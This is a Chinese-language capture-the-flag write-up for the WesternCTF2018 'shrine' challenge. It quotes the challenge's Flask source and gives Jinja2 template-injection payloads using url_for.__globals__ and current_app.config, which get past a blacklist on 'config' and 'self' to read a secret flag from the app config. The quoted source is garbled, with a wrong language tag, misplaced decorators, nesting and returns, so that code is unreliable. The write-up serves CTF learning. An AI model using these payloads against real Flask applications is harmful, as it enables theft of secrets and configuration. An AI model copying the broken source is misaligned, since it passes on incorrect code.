 # [WesternCTF2018]shrine SSTI 绕过黑名单

```cobol
import flask
import os
app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')
@app.route('/')
def index():
    return open(__file__).read() @app.route('/shrine/')
    def shrine(shrine):
        def safe_jinja(s):
            s = s.replace('(', '').replace(')', '')
            blacklist = ['config', 'self']
            return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
            return flask.render_template_string(safe_jinja(shrine))
if __name__ == '__main__': app.run(debug=True)
```

这里用了flask我们就应该想到是SSTI模块注入

其中存在/shrine/ 目录

如何存在safe_jinjia 进行过滤 config 和self

所以平常的就无法实现

我们需要使用其他函数

例如 url_for() 或者 get_flashed_messages()

去读取全局变量 如何访问

我们要注意 这里过滤config和self是因为他们是变量 就会过滤

我们下面的payload中的是属性 所以不会过滤



<img src="https://i-blog.csdnimg.cn/blog_migrate/dfa731b01c18a20ddeea2596c7b3072f.png" alt="" style="max-height:177px; box-sizing:content-box;" />


我们先去看看全局变量

```handlebars
{{url_for.__globals__}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/1b9187b396a0d944c7908142d804d894.png" alt="" style="max-height:817px; box-sizing:content-box;" />


存在 current_app 就是当前app 那么我们访问一下

```handlebars
/shrine/{{url_for.__globals__['current_app'].config}}
 
这里的config不会过滤 是因为是属性 所以不会过滤
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/95d76f1dd5d6f7ba057bce41ab689db7.png" alt="" style="max-height:173px; box-sizing:content-box;" />